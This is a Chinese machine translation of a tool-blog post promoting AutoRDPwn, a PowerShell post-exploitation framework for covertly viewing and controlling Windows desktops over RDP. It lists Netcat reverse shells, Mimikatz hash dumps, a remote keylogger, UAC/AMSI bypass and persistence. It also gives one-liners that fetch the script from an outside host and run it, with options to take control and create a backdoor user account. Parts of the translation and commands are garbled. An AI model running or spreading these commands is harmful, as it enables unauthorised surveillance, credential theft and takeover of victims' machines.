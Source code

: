 # AutoRDPwn:影子攻击框架

> 原文：<https://kalilinuxtutorials.com/autordpwn-shadow-attack-framework/>

[![AutoRDPwn : The Shadow Attack Framework](img//6abb08547e3d4e36cfc08faa780f36cb.png "AutoRDPwn : The Shadow Attack Framework")](https://1.bp.blogspot.com/-zEGg0zcicwE/XWAf2CBJaUI/AAAAAAAACI8/hrbad44-W_UPSgejF7QNFQGxyxKiqKjGACLcBGAs/s1600/AutoRDPwn%25281%2529.png)

AutoRDPwn 是在 Powershell 中创建的一个后利用框架，主要设计用于自动化对微软 Windows 计算机的**影子**攻击。该漏洞(被微软列为一项功能)允许远程攻击者在未经其同意的情况下查看其受害者的桌面，甚至使用操作系统本身的工具按需控制它。

由于有了额外的模块，可以通过 Netcat 获得远程 shell，使用 Mimikatz 转储系统散列，加载远程键盘记录程序等等。所有这一切，通过七种不同语言的完全直观的菜单。

此外，通过使用一节中描述的一系列参数，可以在反向 shell 中使用它。

**要求**

Powershell 4.0 或更高版本

**变化**

**5.0 版本**

*   全新标志从零开始完全重新设计
*   7 种语言的全面翻译:西班牙语、英语、法语、德语、it、俄语、葡萄牙语
*   绕过 UAC 和 AMSI，通过反向外壳远程执行
*   来自 Linux 的部分支持(用户指南中有更多信息)
*   改进的远程执行(受害者不再需要互联网连接)
*   可用的新部分:后门和持久性
*   新模块可用:远程键盘记录器
*   可用的新部分:权限提升
*   新模块可用:从操作系统获取信息
*   新模块可用:用夏洛克搜索漏洞
*   新模块可用:通过加电提升权限
*   新增部分:其他模块
*   新模块可用:执行外部脚本

*其余的更改可以在 CHANGELOG 文件中查阅

**也可以理解为-[Pyshark:t shark 的 Python 包装器，允许使用 Wireshark 解析器解析 Python 包](https://kalilinuxtutorials.com/pyshark-python-wrapper-tshark-allowing-python-packet-parsing/)**

**使用**

这个应用程序可以用于本地，远程或团队之间的枢纽。

在反向 shell 中远程使用时，有必要使用以下参数:

*   **admin / -noadmin** - >根据我们拥有的权限，我们将使用其中的一个
*   **nogui** - >这将避免加载菜单和一些颜色，保证其功能性
*   我们将选择自己的语言(英语、西班牙语、法语、德语、意大利语、俄语或葡萄牙语)
*   **选项** - >和菜单一样，我们可以选择如何发动攻击
*   **影子** - >我们将决定是否要查看或控制远程设备
*   **createuser** - >该参数可选，将在受害机器上创建用户 AutoRDPwn(密码:AutoRDPwn)

**一行本地执行:**

powershell-EP bypass " CD $ env:temp；iwr https://darkbyte.net/autordpwn.php-outfile autordpwn . PS1；。\AutoRDPwn.ps1 "

**线上远程执行示例:**

powershell-EP bypass " CD $ env:temp；iwr https://darkbyte.net/autordpwn.php-outfile autordpwn . PS1；。\ autordpwn . PS1-admin-nogui-lang English-option 4-shadow control-create user "

**截图**

![](img//d7d8c85336a7a63d702e0c65dc8ac74f.png)![](img//f8bafdad39d261fc99ab85f39bd131c5.png)[**Download**](https://github.com/JoelGMSec/AutoRDPwn)